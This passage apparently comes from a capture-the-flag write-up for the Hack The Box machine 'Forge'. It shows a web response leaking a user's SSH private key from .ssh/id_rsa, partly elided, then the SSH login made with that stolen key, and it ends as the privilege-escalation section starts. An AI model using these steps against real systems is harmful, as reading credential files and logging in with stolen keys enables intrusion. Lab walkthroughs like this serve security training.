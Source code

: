 So, hidden folders will not be displayed in listing. Right? But we get lucky and can retrieve the private key of user nonetheless as a key exists at ".ssh/id_rsa".

```bash
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:27:40 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: image/jpg

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
[ommited for readability]
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
```

Finally we can use this key to ssh into the box.

```bash
> vim id_rsa
> chmod 600 id_rsa
> ssh -i id_rsa user@forge.htb

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 22 Sep 2021 10:31:05 AM UTC

  System load:           0.0
  Usage of /:            43.9% of 6.82GB
  Memory usage:          22%
  Swap usage:            0%
  Processes:             222
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.111
  IPv6 address for eth0: dead:beef::250:56ff:feb9:1d00


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Aug 20 01:32:18 2021 from 10.10.14.6
user@forge:~$
```

# Privilege escalation

First check is `sudo -l` and this will reveal we can run a python script as root.
